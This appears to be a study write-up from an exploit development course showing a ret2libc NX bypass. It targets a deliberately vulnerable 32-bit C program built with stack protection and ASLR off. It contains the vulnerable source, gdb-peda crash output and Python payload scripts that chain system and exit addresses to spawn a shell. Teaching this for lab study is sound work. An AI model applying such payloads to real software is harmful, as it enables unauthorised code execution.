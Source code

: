 # 1. What is No Execute
- The NX bit (no-execute) is a technology used in CPUs to segregate areas of memory for use by either storage of processor instructions (code) or for storage of data, a feature normally only found in Harvard architecture processors. However, the NX bit is being increasingly used in conventional von Neumann architecture processors for security reasons.

- Return to library C (ret2libc) and return to system (ret2sys) are technique usally use to bypass the No Execution bit and is the technique I'll use in this report.
----------
# 2. NX Bypass
## 2.1 Building Up Environment

This is the source code we will use for exploit example:

```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
  char buf[500];
  int userinput;
  userinput = read(0, buf, 700);
  printf("\nUser provided %d bytes.\nBuffer content is: %s\n", userinput, buf);
  return 0;
}

int main(){
  overflow();
  return 0;
}
```

Build the source code:

```bash
gcc vulnerable.c -m32 -fno-stack-protector -o vulnerable
```

Make sure, the machine has already turned off the ASLR. To turn off it:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Using **checksec** to make sure that only Stack Canary is disabled

![image1.png](image1.png)

## 2.2. Getting An Interesting Target
First up, I know the program have buffer size is 500, so let's try to make it crashing 500 buffer ``python -c 'print("A"*700)' | ./vulnerable``.

![image2.png](image2.png)

Nothing happned, so try bigger size to see length make crashing:

![image3.png](image3.png)

Opening debugger to debug the program, in here I will use the gdb-peda to debug and using peda's feature to make pattern and get the exact size the program crashed **(You can also use msf-pattern_create and msf-pattern_offset)**.

![image4.png](image4.png)

![image5.png](image5.png)

## 2.3. Getting Return Address
Making a string to determine where is the start of buffer 'A':
- `python -c "print('A'*516+'B'*4)" > input.txt`

![image6.png](image6.png)

![image7.png](image7.png)

So, **0xffffd088** is where the buffer start at. So we will make a script to spawn the buffer and last 4 byte will be the returned address which we got above.

```python
#!/usr/bin/python2
from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xffffd088) # Start of A character

print payload
open('input.txt', 'wb').write(payload)
```

Run the file in gdb and determine if the program crashed ad  **0x41414141** or not:

```bash
gdb-peda$ r < input.txt
Starting program: vulnerable < input.txt

User provided 520 bytes.
Buffer content is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x1
ESI: 0xf7fa6000 --> 0x1e4d6c
EDI: 0xf7fa6000 --> 0x1e4d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
EIP: 0xffffd088 ('A' <repeats 200 times>...)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xffffd088:  inc    ecx
   0xffffd089:  inc    ecx
   0xffffd08a:  inc    ecx
   0xffffd08b:  inc    ecx
[------------------------------------stack-------------------------------------]
0000| 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
0004| 0xffffd294 --> 0xf7fa6000 --> 0x1e4d6c
0008| 0xffffd298 --> 0x0
0012| 0xffffd29c --> 0xf7ddfe46 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd2a0 --> 0x1
0020| 0xffffd2a4 --> 0xffffd344 --> 0xffffd4b8 ("/home/th3knight/Desktop/learning/shellcoding/ine/DEP/vulnerable")
0024| 0xffffd2a8 --> 0xffffd34c --> 0xffffd4f8 ("SHELL=/bin/bash")
0028| 0xffffd2ac --> 0xffffd2d4 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xffffd088 in ?? ()
```

The program crashed with **0xffffd088** with no reason. This is because of NX bit is enabled so this will kill when user tried to execute from their inputted data. Re run the debugger, breakpoint at main `br *main`, and run.

The technique of ret2libc will be:
- Buffer_size + Execution_function_address + Return_address + Arguments_address 

Quick taking address of system `print system`, exit `print exit` and arguments `find "/bin/bash"` export these address.

![image8.png](image8.png)

## 2.4 Proof of Concept (PoC)

```python
#!/usr/bin/python2

from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xf7e06000) # System_func address @@ exec_function
payload += pack('<I', 0xf7df8950) # Exit_func address @@ ret_func
payload += pack('<I', 0xf7f4d338) # Arguments address

print payload
```

![image9.png](image9.png)

Nothing happended, because there is no listener to keep and get the input, output. So we will use the cat to be that listener.
- `(./exploit.py ; cat) | ./vulnerable`

![image10.png](image10.png)

-----------------
# 3. Reference
- [https://en.wikipedia.org/wiki/NX_bit](https://en.wikipedia.org/wiki/NX_bit)
- [https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)
---